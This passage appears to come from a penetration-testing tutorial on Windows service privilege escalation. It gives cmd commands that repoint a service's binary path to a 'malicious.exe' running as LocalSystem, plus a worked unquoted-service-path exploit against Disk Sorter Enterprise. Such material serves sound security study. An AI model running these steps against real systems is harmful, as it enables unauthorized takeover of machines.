 3. Transfer and prepare the executable:
   ```cmd
   # Ensure proper permissions
   icacls malicious.exe /grant Everyone:F
   ```

4. Reconfigure the service:
   ```cmd
   # Change the binary path and account (note the spaces after the equal signs)
   sc config SERVICE_NAME binPath= "C:\path\to\malicious.exe" obj= LocalSystem
   ```

5. Restart the service:
   ```cmd
   sc stop SERVICE_NAME
   sc start SERVICE_NAME
   ```

## Real-World Example 1: Exploiting Unquoted Service Path

For a service with configuration like:

```cmd
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

Check if we can write to the directory:

```cmd
C:\> icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The BUILTIN\Users group has write permissions. We can exploit this:

```cmd
# Place malicious executable in the path
C:\> move malicious.exe C:\MyPrograms\Disk.exe

# Set permissions
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F

# Restart service
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```
